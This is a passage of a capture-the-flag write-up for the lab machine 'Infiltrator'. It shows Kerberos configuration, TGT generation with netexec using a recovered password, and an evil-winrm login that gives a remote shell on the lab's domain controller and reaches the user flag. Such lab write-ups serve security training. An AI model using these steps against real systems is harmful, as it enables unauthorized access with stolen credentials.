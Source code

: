 > Since the user is member of the `Protected Users` group, We would not be able to check the `winrm` permission with a simple `nxc winrm $DC -u m.harris -p $password` command because it can only authenticate via kerberos.
{: .prompt-warning}

## Foothold - (5985) - WinRM

To login to `winrm` through `evil-winrm` using `kerberos` we need to generate a TGT for the user `m.harris` and configure our `krb5.conf` file to use the domain controller as the KDC (Key Distribution Center) for the `infiltrator.htb` domain.

Our modified `/etc/krb5.conf` file should look like this:

```plaintext
[libdefaults]
default_realm = INFILTRATOR.HTB
[realms]
        INFILTRATOR.HTB = {
                kdc = dc01.infiltrator.htb
                admin_server = dc01.infiltrator.htb
                default_domain = dc01.infiltrator.htb
        }

[domain_realm]
        .infiltrator.htb = INFILTRATOR.HTB
        infiltrator.com = INFILTRATOR.HTB
```

After that, we generate our `TGT` and authenticate to the `winrm` service using `evil-winrm`.

```bash
nxc smb dc01.infiltrator.htb -u m.harris -p 'Str0ngP4ssword' -k --generate-tgt m.harris

SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:Str0ngP4ssword
SMB         dc01.infiltrator.htb 445    DC01             [+] TGT saved to: m.harris.ccache.ccache
SMB         dc01.infiltrator.htb 445    DC01             [+] Run the following command to use the TGT: export KRB5CCNAME=m.harris.ccache

KRB5CCNAME=m.harris.ccache evil-winrm -r infiltrator.htb -i dc01.infiltrator.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> dir ..\desktop


    Directory: C:\Users\M.harris\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/4/2025   2:22 PM             34 user.txt


```
